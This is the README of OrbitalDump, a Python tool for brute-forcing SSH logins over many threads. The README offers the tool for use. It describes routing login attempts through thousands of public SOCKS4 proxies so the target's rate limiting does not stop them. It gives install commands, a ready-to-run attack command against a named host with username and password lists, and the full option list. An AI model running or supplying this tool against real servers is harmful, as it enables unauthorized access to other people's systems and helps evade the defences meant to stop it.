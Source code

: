 # OrbitalDump

A simple multi-threaded dstributed SSH brute-forcing tool written in Python.

![image](https://user-images.githubusercontent.com/21986859/120943808-33072b00-c6ff-11eb-8386-b64a0ba2a12c.png)

## How it Works

When the script is executed without the `--proxies` switch, it acts just like any other multi-threaded SSH brute-forcing scripts. When the `--proxies` switch is added, the script pulls a list (usually thousands) of SOCKS4 proxies from [ProxyScrape](https://proxyscrape.com/) and launch all brute-force attacks over the SOCKS4 proxies so brute-force attempts will be less likely to be rate-limited by the target host.

## Installation

You can install OrbitalDump through pip.

```shell
pip install -U --user orbitaldump
orbitaldump
```

Alternatively, you can clone this repository and run the source code directly.

```shell
git clone https://github.com/k4yt3x/orbitaldump.git
cd orbitaldump
python -m orbitaldump
```

## Usages

A simple usage is shown below. This command below:

- `-t 10`: launch 10 brute-forcing threads
- `-u usernames.txt`: read usernames from usernames.txt (one username per line)
- `-p passwords.txt`: read passwords from passwords.txt (one password per line)
- `-h example.com`: set brute-forcing target to `example.com`
- `--proxies`: launch attacks over proxies from ProxyScrape

```shell
python -m orbitaldump -t 10 -u usernames.txt -p passwords.txt -h example.com --proxies
```

## Full Usages

You can obtain the full usages by executing OrbitalDump with the `--help` switch. The section below might be out-of-date.

```console
usage: orbitaldump [--help] [-t THREADS] [-u USERNAME] [-p PASSWORD] -h HOSTNAME [--port PORT] [--timeout TIMEOUT] [--proxies]

optional arguments:
  --help                show this help message and exit
  -t THREADS, --threads THREADS
                        number of threads to use (default: 5)
  -u USERNAME, --username USERNAME
                        username file path (default: None)
  -p PASSWORD, --password PASSWORD
                        password file path (default: None)
  -h HOSTNAME, --hostname HOSTNAME
                        target hostname (default: None)
  --port PORT           target port (default: 22)
  --timeout TIMEOUT     SSH timeout (default: 6)
  --proxies             use SOCKS proxies from ProxyScrape (default: False)
```

